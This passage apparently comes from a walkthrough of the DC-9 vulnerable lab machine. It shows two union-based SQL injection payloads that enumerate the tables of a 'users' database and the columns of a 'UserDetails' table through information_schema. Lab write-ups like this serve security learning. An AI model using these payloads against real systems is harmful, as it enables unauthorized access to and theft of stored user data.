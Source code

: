 ![Untitled](DC-9%205a1a383f004f41a7b065312771f311ab/Untitled%202.png)

We see that the Staff and users databases exist.

The next step I take is to list the tables contained in the users database

```sql
Mary' union select null,table_name,null,null,null,null from information_schema.tables where table_schema='users'-- -

```

![Untitled](DC-9%205a1a383f004f41a7b065312771f311ab/Untitled%203.png)

And I see that the UserDetails table exists, then I go on to list the columns of this table.

```sql
Mary' union select null,column_name,null,null,null,null from information_schema.columns where table_name='UserDetails'-- -

```
